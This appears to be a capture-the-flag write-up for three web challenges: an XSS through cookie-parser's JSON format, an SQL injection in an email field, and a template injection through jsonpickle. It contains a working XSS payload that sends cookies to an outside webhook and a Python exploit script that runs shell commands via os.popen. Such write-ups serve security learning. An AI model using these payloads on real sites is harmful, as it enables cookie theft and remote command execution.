 
# Honskay 
We can see that there is a clear XSS vulnerability in the cookies. To trigger it we should be passing an object otherwise our cokkie will be sanitized.
Gladly, it has not been 2 days since I discovered that we can pass JSON objects to `cookie-parser` by using the `j:JSON` format.

Going to the `goose.js` file we will see that the admin is setting the **FLAG** cookie with the `samesite=None` attribute, that means the flag cookie will be sent with any requests from the page.

Okay so to sum it up:

1. Submit an url to `http://localhost:9988/changehonk?newhonk=OUR_PAYLOAD`
2. OUR_PAYLOAD should initiate a request to our webhook.
3. **Final payload**
`http://localhost:9988/changehonk?newhonk=j%3A%7B%22message%22%3A%22%3Cscript%3Efetch%28%27https%3A%2F%2Fent2hhvqk200b.x.pipedream.net%3Fcookie%3D%27%2Bdocument.cookie%29%3C%2Fscript%3E%22%7D`

** Response**

/?cookie=flag=maple{g00segoHONK}

[IMAGE_HERE]

# Bookstore

Sql injection on the email field. Actually email has a special format which is `"insert_whater_youwant"@domain`. We can use this format to perform an sqli where we will get the `texts from books where id=1` and because it's not a numerical string it will spit out the value in the form of error.

<!-- 
> I wasted a lot of time on this challenge, because the server always returned Error in the request. Actually, the error was syntax related and I had no clue why it happened but by recapturing the request from burp it worked finely. -->

[IMAGE_HERE]

# Pickle Factory

Basically an SSTI with some flashy moves. A string will be kept as it is in serialization and don't be fooled with the filter function it's not used anywhere !

```py
import requests
import jsonpickle


evil_json_pickle= jsonpickle.encode({"Attack":"{{ cycler.__init__.__globals__.os.popen('cat flag.log | grep maple').read() }}"})

print(evil_json_pickle)

data= "data="

resp= requests.post("http://pickle-factory.ctf.maplebacon.org/create-pickle", data=data+evil_json_pickle)

print("your pickle id: ", resp.text)

id=resp.text

resp2= requests.get("http://pickle-factory.ctf.maplebacon.org/view-pickle?uid="+id)


print(resp2.text[resp2.text.index('maple'):resp2.text.index('maple')+40])
```

![Script Output](images/ba4132664129e7bb8a0a19cad586bed88961eee5e70ae27af7b179d450ce08c4.png)  
